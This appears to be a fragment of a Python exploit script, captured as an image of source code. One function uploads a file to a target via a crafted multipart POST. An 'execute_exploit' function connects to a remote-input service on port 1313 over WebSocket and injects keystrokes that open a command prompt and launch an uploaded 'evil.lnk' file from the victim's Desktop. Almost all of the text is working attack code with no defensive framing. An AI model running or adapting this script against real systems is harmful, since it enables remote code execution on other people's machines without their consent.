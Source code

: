 ```
        "Content-Type": f"multipart/form-data; boundary={BOUNDARY}",
        "Accept-Language": "tr-TR,tr;q=0.9",
        "Accept-Encoding": "gzip, deflate",
    }


    body = (
        f"--{BOUNDARY}\r\n"
        f'content-disposition: form-data; name="file"; filename="{filename}"; filename*=utf-8\'\'{filename}\r\n'
        f"content-type: application/octet-stream\r\n\r\n"
    ).encode() + file_content + f"\r\n--{BOUNDARY}--\r\n".encode()

    headers["Content-Length"] = str(len(body))


    try:
        print(f"Uploading {filename} to {url}...")
        response = requests.post(url, data=body, headers=headers)
        print(f"Upload Status: {response.status_code}")
        print(f"Response: {response.text}")
        return response.status_code == 200
    except Exception as e:
        print(f"Upload failed: {e}")
        return False

async def execute_exploit(target_ip):
    """Execute the exploit via WebSocket"""
    uri = f"ws://{target_ip}:1313/socket.io/?EIO=4&transport=websocket"
    async with websockets.connect(uri) as ws:

        await ws.recv()  
        await ws.send("40")
        await ws.recv()  
        

        frame = await ws.recv()
        if frame == "2":
            await ws.send("3")  
        
        await asyncio.sleep(1)


        await ws.send('42["edit-key",{"key":"escape","modifier":["control"]}]')
        await asyncio.sleep(0.5)
        

        for key in ["c", "m", "d", "enter"]:
            await ws.send(f'42["key","{key}"]')
            await asyncio.sleep(0.2)
        await asyncio.sleep(1)
        

        run_cmd = r'for %i in ("%USERPROFILE%\Desktop\*evil.lnk") do start "" "%i"'
        for char in run_cmd:
            payload = '42' + json.dumps(["key", char])
            await ws.send(payload)
            await asyncio.sleep(0.1)
        

        await ws.send('42["key","enter"]')
        await asyncio.sleep(3)  
        
```